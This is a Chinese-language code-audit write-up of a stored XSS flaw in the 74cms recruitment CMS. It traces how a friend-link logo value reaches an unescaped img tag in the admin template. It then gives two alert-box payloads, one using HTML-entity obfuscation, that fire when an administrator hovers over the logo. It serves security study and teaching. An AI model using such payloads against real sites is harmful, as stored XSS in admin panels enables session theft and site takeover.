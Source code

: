 ### 环境搭建

源码可以在官网进行下载：http://www.74cms.com/download/lists/module_name/Home/type/setup/cname/%E9%AA%91%E5%A3%AB%E4%BA%BA%E6%89%8D%E7%B3%BB%E7%BB%9F%E5%9F%BA%E7%A1%80%E7%89%88%28%E5%AE%89%E8%A3%85%E5%8C%85%29.html



### 漏洞分析

管理员后台有个申请友情链接的地方

<img src="./img/1.png">



查看一下对应的代码，位于/upload/admin/admin_link.php



act为GET请求访问admin_link.php的时候传入的参数，该参数为控制了页面显示的内容，当act为空时，打印友情链接列表

```php
$act = !empty($_GET['act']) ? trim($_GET['act']) : 'list';
if ($act == 'list') {
    ...
    $offset = ($currenpage - 1) * $perpage;
    $link = get_links($offset, $perpage, $joinsql . $wheresql . $oederbysql);
    $smarty->assign('link', $link);
    $smarty->assign('page', $page->show(3));
    $smarty->assign('upfiles_dir', $upfiles_dir);
    $smarty->assign('get_link_category', get_link_category());
    $smarty->display('link/admin_link.htm');
```



追踪get_links()函数，该函数从数据库中查询了友情列表的信息，然后返回

```php
function get_links($offset, $perpage, $get_sql= '')
{
	global $db;
	$row_arr = array();
	$limit=" LIMIT ".$offset.','.$perpage;
	$result = $db->query("SELECT l.*,c.categoryname FROM ".table('link')." AS l ".$get_sql.$limit);
	while($row = $db->fetch_array($result))
	{
	$row_arr[] = $row;
	}
	return $row_arr;	
}
```



后面的代码则是按照模板，显示从数据库中获取的内容，我们跟进一下模板文件，即link/admin_link.htm，这里使用的是相对路径，绝对路径为/upload/admin/templates/default/link/admin_link.htm，其中，有段代码是有问题的

```php
<span style="color:#FF6600" title="<img src={#$list.link_logo#} border=0/>" class="vtip">[logo]</span>
```



这里直接把显示logo的img标签放在span标签的title里面，当鼠标滑过的时候回调用事件执行显示title即执行img标签，这里的利用点是{#$list.link_logo#}，**那么我们的思路就有了：在前台申请链接的时候，在LOGO处输入payload，恶意代码会被代入后台，当管理员鼠标挪到LOGO的时候，触发XSS**



payload1：使用HTML实体编码

```php
# &#114; 是字符r的HTML实体表示，HTML实体参考手册：https://www.w3school.com.cn/charsets/ref_html_8859.asp
1 oner&#114;or=ale&#114;t(1)
```



<img src="./img/2.png">



后台弹窗

<img src="./img/3.png">

payload2

```php
1 onerror=alert(2)
```

<img src="./img/4.png">

后台弹窗

<img src="./img/5.png">



### 参考

https://www.cnblogs.com/Cl0ud/p/12407981.html

代码审计《企业级Web代码安全架构》-尹毅/Seay/法师